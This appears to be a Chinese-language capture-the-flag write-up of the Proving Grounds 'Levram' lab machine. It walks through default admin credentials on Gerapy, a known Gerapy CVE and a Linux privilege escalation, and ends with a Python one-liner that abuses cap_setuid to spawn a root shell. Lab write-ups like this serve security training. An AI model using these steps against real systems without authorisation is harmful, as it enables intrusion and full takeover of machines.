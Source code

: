 ```yaml
---
layout: post
title: "[PGPractice] Levram  靶機 Write-up"
date: 2024-07-11 13:08:02 +0800
categories: [offsec]
tags: [offsec]
---
```


本系列為 Proving Grounds Play Subscription 靶機

## 官方難易度 : Easy

## 社群評論難易度 : HARD

## 解題花費時間 : < 120 min

## 知識點 :

已知資訊 GERAPY

`Gerapy < 0.9.8`

### Port Scan

![](../static/img/2024-07-11/0.png)

### 8000 Port

發現 帳號與密碼 admin 可以進系統 

![](../static/img/2024-07-11/1.png)

登入後發現最下方有個版本號 0.97 搜索一下 發現有 CVE可利用 `Gerapy < 0.9.8`

![](../static/img/2024-07-11/2.png)

在項目管理中 隨便新增一個專案 即可利用 CVE腳本 `※若無專案 則會失敗`

![](../static/img/2024-07-11/3.png)

## 提權

看 log 發現有個scheduler.py的檔案

![](../static/img/2024-07-11/4.png)

![](../static/img/2024-07-11/5.png)

查看版本號 ,且有gcc 可用  `Linux ubuntu 5.15.0-73-generic`

![](../static/img/2024-07-11/6.png)

### `最後使用了很多 dirtypipe 提權都無解`

參考 Write up

## getcap -r / 2>/dev/null

/snap/core20/1518/usr/bin/ping cap_net_raw=ep\n
/snap/core20/1891/usr/bin/ping cap_net_raw=ep\n
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep\n
/usr/bin/mtr-packet cap_net_raw=ep\n
`/usr/bin/python3.10 cap_setuid=ep`\n
/usr/bin/ping cap_net_raw=ep\n
```
`/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash");'`